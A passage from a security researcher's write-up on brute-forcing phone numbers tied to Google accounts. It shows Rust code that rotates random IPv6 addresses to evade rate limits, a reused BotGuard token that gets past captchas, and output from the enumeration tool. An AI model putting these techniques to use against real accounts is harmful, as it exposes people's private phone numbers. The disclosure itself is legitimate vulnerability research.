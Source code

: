 ```hljs rust
    let ipv6_u128: u128 = u128::from(ipv6);
    let rand: u128 = random();

    let net_part = (ipv6_u128 >> (128 - prefix_len)) << (128 - prefix_len);
    let host_part = (rand << prefix_len) >> prefix_len;
    let result = net_part | host_part;

    IpAddr::V6(Ipv6Addr::from(result))
}

pub fn create_client(subnet: &str, user_agent: &str) -> Client {
    let ip = get_rand_ipv6(subnet);

    Client::builder()
        .redirect(redirect::Policy::none())
        .danger_accept_invalid_certs(true)
        .user_agent(user_agent)
        .local_address(Some(ip))
        .build().unwrap()
}
```

Eventually, I had a PoC running, but I was still getting the captcha? It seemed that for whatever reason, datacenter IP addresses using the JS disabled form were always presented with a captcha, damn!

### Using the BotGuard token from the JS form

I was looking through the 2 requests again, seeing if there was anything I could find to get around this, and `bgresponse=js_disabled` caught my eye. I remembered that on the [JS-enabled account recovery form](https://accounts.google.com/signin/v2/usernamerecovery), the botguard token was passed via the **bgRequest** parameter.

‎

![](https://brutecat.com/assets/leaking-google-phones/bgtoken.png)

‎

What if I replace `js_disabled` with the botguard token from the JS-enabled form request? I tested it out, and **it worked??**. The botguard token seemed to have no request limit on the No-JS form, but who are all these random people?

```hljs plaintext
$ ./target/release/gpb --prefix +316 --suffix 03 --digits 6 -f Henry -l Chancellor -w 3000
Starting with 3000 threads...
HIT: +31612345603
HIT: +31623456703
HIT: +31634567803
HIT: +31645678903
HIT: +31656789003
HIT: +31658854003
HIT: +31667890103
HIT: +31678901203
HIT: +31689012303
HIT: +31690123403
HIT: +31701234503
HIT: +31712345603
HIT: +31723456703
```

It took me a bit to realize this, but those were all people who had the Google account name "Henry" with no last name set, as well as a phone with the last 2 digits **03**. For those numbers, it would return `usernamerecovery/challenge` for the first name Henry and **any last name**.

‎
